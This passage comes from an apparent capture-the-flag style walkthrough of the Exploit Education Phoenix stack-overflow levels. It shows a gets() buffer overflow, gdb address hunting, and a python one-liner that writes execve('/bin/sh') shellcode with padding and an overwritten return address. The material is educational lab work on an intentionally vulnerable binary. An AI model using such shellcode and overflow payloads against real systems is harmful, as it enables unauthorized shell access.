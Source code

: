 Next find the address of `complete_level`.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-four-complete-level-addr.png)

The payload will be 64 (`buffer`) + 24 (padding to return address) = 88 padding + return address.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-four-solve.png)

# Stack Five

> Can you execve("/bin/sh", ...) ?

```c
...
void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

First, find the padding to $rbp is 8 with gdb.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-five-padding.png)

Then, setting break point at `0x40059c <start_level+15> call   0x4003f0 <gets@plt>` to find that the payload will be store at 0x00007fffffffe5a0.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-five-stack-addr.png)

Since the stack is executable, shellcode can be put in payload and overflow $rbp to where the payload is stored, when `start_level` returns, instead of returning to `main`, it will return to the payload and run the shellcode to give us shell.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-five-nx-enable.png)

After finishing the payload (using shellcode from [Exploit Database](https://www.exploit-db.com/exploits/46907)): 
```bash
python3 -c "import sys; shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'; sys.stdout.buffer.write(shellcode + b'A' * (136 - len(shellcode)) + b'\xa0\xe5\xff\xff\xff\x7f')"
```
it successfully spawn a shell in gdb.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-five-gdb-success.png)

However, running the same payload in command line, it only gets Segmentation fault, no shell is spawned.
